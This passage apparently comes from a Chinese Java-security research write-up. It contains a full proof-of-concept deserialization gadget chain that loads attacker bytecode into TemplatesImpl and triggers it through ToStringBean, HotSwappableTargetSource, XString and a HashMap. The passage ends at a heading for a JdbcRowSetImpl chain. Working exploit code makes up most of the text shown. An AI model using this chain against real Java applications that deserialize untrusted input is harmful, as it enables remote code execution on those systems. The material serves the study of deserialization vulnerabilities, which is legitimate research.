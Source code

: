```java
    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void setValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        TemplatesImpl templatesimpl = new TemplatesImpl();

        byte[] payloads = Files.readAllBytes(Paths.get("/Users/zjacky/Documents/Security-Testing/Java-Sec/Java-Sec-Payload/target/classes/Evail_Class/Calc.class"));

        setValue(templatesimpl,"_name","aaa");
        setValue(templatesimpl,"_bytecodes",new byte[][] {payloads});
        setValue(templatesimpl, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(TemplatesImpl.class,templatesimpl);

        HotSwappableTargetSource h1 = new HotSwappableTargetSource(toStringBean);
        HotSwappableTargetSource h2 = new HotSwappableTargetSource(new XString("xxx"));

        HashMap hashMap = new HashMap&lt;&gt;();
        hashMap.put(h1,h1);
        hashMap.put(h2,h2);

        //serialize(hashMap);
        unserialize("ser.bin");
    }

}

```

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-f717446f34da57616d04a47ab4df5d861c7eff77.png)​

‍

### JdbcRowSetImpl利用链

‍
